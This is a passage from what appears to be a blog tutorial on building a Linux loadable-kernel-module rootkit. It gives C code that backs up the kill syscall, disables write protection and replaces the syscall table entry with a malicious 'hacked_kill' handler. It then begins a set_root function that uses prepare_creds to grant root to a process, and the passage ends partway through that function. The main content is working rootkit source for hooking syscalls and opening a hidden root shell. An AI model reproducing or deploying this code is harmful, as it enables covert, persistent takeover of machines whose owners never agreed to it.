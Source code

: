              Now, we stored the original syscall, rather backuped the original syscall, as this would be used later to revert back to normal syscall workflow while rmmod'ing our LKM aka. rootkit (in this scenario).
             So lets unprotect the memory and edit the syscall table and then revert back the memory protection as it was.
              ```c
              orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

              unprotect_memory();

              __sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

              protect_memory();
              ```
              You might be thinking, what the heck is hacked_kill?
              It is actually the function (mal. syscall) that we created, which I will introduce you in the next step.
            5. So, now what ? &nbsp;
Remember that? **providing rootshell** portion earlier in this blog (if not, please go and [visit](https://----providing-rootshell-link----), it's obvious to forget as this blog is pretty long, don't be harsh on yourself! :hugs:)
              We will be implementing that _getting rootshell_ mechanism via _kill syscall_.
                  ```c
                  static void set_root(void)
                  {
                    /*
                     * pwd: /lib/modules/5.11.0-49-generic/build/include/linux/cred.h
                     * 
                     * struct cred {
                     *      ...
                     *      kuid_t          uid;            // real UID of the task
                     *      kgid_t          gid;            // real GID of the task 
                     *      kuid_t          suid;           // saved UID of the task
                     *      kgid_t          sgid;           // saved GID of the task
                     *      kuid_t          euid;           // effective UID of the task
                     *      kgid_t          egid;           // effective GID of the task
                     *      kuid_t          fsuid;          // UID for VFS ops
                     *      kgid_t          fsgid;          // GID for VFS ops
                     *      ...
                     * };
                     * 
                     * ...
                     * extern struct cred *prepare_creds(void);     // returns current credentials of the process
                     * ...
                     * extern int commit_creds(struct cred *);      // For setting modified values of ids to cred structure
                     */

                    struct cred *root = prepare_creds();

                    if (root == NULL)
                    {
                         return;
                    }
